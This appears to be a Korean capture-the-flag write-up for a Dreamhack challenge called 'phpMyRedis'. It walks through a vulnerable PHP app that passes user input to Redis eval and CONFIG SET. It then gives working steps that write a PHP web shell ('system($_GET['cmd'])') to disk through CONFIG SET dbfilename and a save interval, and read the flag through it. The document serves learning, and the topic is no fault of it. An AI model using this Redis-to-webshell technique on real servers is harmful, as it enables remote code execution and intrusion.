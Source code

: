 ```yaml
---
title: "[2025-07-25] phpMyRedis"
excerpt: "Redis injection"

categories:
  - Problem
tags:
  - [NoSQL injection, Redis]

permalink: /Problem/[2025-07-25] phpMyRedis/

toc: true
toc_sticky: true

date: 2025-07-25
last_modified_at: 2025-07-25
---
```


## 🦥 본문

- index.php

```php
<?php 
                    if(isset($_POST['cmd'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        $ret = json_encode($redis->eval($_POST['cmd']));
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                        if (!array_key_exists('history_cnt', $_SESSION)) {
                            $_SESSION['history_cnt'] = 0;
                        }
                        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
                        $_SESSION['history_cnt'] += 1;

                        if(isset($_POST['save'])){
                            $path = './data/'. md5(session_id());
                            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
                            file_put_contents($path, $data);
                            echo "saved at : <a target='_blank' href='$path'>$path</a>";
                        }
                    }
                ?>
                
<?php
                        for($i=0; $i<$_SESSION['history_cnt']; $i++){
                            echo "<li>".$_SESSION['history_'.$i]."</li>";
                        }
                    ?>
```

POST[’cmd’]

- POST 요청에 cmd 값이 포함되면 실행
- 레디스를 실행. `$POST[’cmd’]` 값을 실행 시켜서 보여줌
- 세션에 `history_cnt` 값이 없다면 0으로 할당
- `history_(history_cnt 값)` 으로 `$POST[’cmd’]` 값을 저장
    - 저장 후 `history_cnt` 값 1 증가
    - history_0, history_1… 형태로 저장

POST[’save’]

- POST 요청에 save 값이 포함되면 실행
- ./data/ 폴더 아래에 세션 ID를 해쉬 함수를 통해 해싱하여 파일명으로 파일 저장. 아래와 같이 저장
    
    ```php
    > $POST[’cmd’] 값
    -------------------------------------
    $POST[’cmd’] 명령어 실행 결과 
    ```
    
- 저장된 파일 링크 출력

- config.php

```php
 <?php 
                    if(isset($_POST['option'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
```

POST[’option’]

- POST 요청에 option 값이 포함되면 실행
- 레디스 실행.
- 사용자가 보낸 값이 GET인 경우에 `redis.config()` 실행
    - CONFIG GET `$_POST['key']` 값 실행
    - 즉 설정 중 `$_POST['key']` 값을 조회
- 사용자가 보낸 값이 SET인 경우
    - CONFIG SET `$_POST['key']` 값, `$_POST['value']` 값 실행
    - 즉 설정 중에 `$_POST['key']` 값을 키로 가지고 `$_POST['value']` 값을 value로 갖는 새로운 설정 입력
- 위의 명령어를 실행한 결과값을 출력

흠… 코드 이해하는 데만 한참 걸렸다. 지금 생각하는 큰 동작 흐름은 이러하다

1. config.php에서 CONFIG SET 을 통해서  파일 경로와 파일명을 설정한다.
    
    ```php
    CONFIG SET dir /tmp
    CONFIG SET dbfilename hack.php
    ```
    
2. index.php에서 $POST[’cmd’]와 $POST[’save’]를 통해 
    
    ```php
    SET 키 값 "<?php system($_GET['cmd']); ?>" 
    SAVE
    ```
    
    위의 코드를 실행 시키고 저장한다.
    
3. 저장된 위치에서 php를 실행시켜서 웹쉘을 실행시켜서 취약점을 탐색한다.

설정한 파일 경로에 있는 php 파일을 실행시킨다.

근데 2번과 같은 코드를 직접 입력하면 false가 출력. 즉 실행하는 데 실패한다

→ eval()의 인자는 lua 스크립트를 실행시키는 용도이므로 다른 방식으로 전달

→ `return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");`

마찬가지로 return redis.call('SAVE')를 입력했는 데 false 가 출력된다

→ SAVE는 lua 스크립트로 실행이 불가하고 직접 호출해야 한다($redis->save();)

세이브만 시키면 되는데…

md5()가 세션 ID로 해싱을 하는 데 세션 ID를 조작하여 파일명을 변경할 수 있게 하면 어떨까라는 발칙한 상상을 해봤다. 하지만 md5()가 단방향 해싱이고 32자리 16진수 해싱을 하기 때문에 못한다는 gpt의 의견이 있었다.

아… Config Set에서 저장 주기를 정할 수 있던 것이었다…….

### 풀이

1. config.php에서 CONFIG SET 을 통해서  파일 경로와 파일명, 저장 주기를 설정한다.
    
    ```php
    CONFIG GET dir        // 현재 저장 경로 조회
    CONFIG SET dbfilename hack.php
    CONFIG SET save 10 1 // save 몇 초안에 몇 개가 생겨야 저장 -> 10초 내 1개 
    ```
    
2. index.php에서 $POST[’cmd’]와 $POST[’save’]를 통해 
    
    ```php
    return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");
    ```
    
    위의 코드를 실행 시키고 저장한다.
    
3. 저장된 위치에서 php를 실행시켜서 웹쉘을 실행시켜서 취약점을 탐색한다.
    - http://host3.dreamhack.games:9158//hack.php?cmd=/flag